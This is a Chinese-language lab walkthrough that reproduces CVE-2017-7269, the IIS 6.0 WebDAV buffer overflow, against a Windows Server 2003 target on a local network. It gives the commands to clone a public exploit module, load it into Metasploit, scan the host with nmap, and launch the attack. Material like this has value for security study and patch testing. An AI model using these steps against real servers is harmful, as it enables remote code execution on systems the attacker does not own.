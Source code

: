 # CVE-2017-7269 IIS 6.0开启Webdav 缓存区溢出漏洞

### 一、漏洞简介

IIS 6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对 Windows Server 2003 R2 可以稳定利用。

### 二、漏洞影响

### 三、复现过程

**环境搭建**

目标主机：Windows Server 2003 R2

镜像下载：种子文件用迅雷下载:


```
ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/
```

IP：192.168.1.104

A.安装IIS6.0服务：

![](images/15890705789078.png)


B.打开WebDAV服务拓展：

![](images/15890705857735.png)


* 攻击机：kali Linux
* 镜像下载：https://www.kali.org/downloads/
* IP:192.168.1.106

### 配置攻击套件

--首先我们要下载EXP文件，输入：

`git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp`

ls //查看当前目录下的文件

![](images/15890706069912.png)


--然后我们需要复制EXP到msf框架中#注意复制时，是下划线”_”不要写成cve-2017-7269.rb#，在目录下重命名这个文件为cve_2017_7269.rb，输入：


```bash
cp cve_2017_7269.rb /usr/share/metasploit-framework/modules/exploits/windows/iis/ //复制EXP到相应目录
cd /usr/share/metasploit-framework/modules/exploits/windows/iis/ //进入目录
ls //查看当前目录下的文件
```

![](images/15890706248319.png)


![](images/15890706281616.png)


--我们使用nmap扫描一下靶机的端口情况，输入：

`nmap 192.168.1.104 //扫描192.168.1.104的端口`

![](images/15890706392821.png)


可以看到我们要攻击的80端口已经开启#

**利用msf开始攻击**

![](images/15890706489574.png)


--然后我们要使用刚才复制进去的EXP套件

输入：


```bash
msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
msf5 > show options //查看需要的配置
```

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![](images/15890706739361.png)



```bash
msf5 > set rhosts 192.168.1.104 // 设置目标的IP
msf5 > set rport 80 //设置目标端口
```

![](images/15890706843401.png)



```
msf5 > exploit
```

![](images/15890706927261.png)
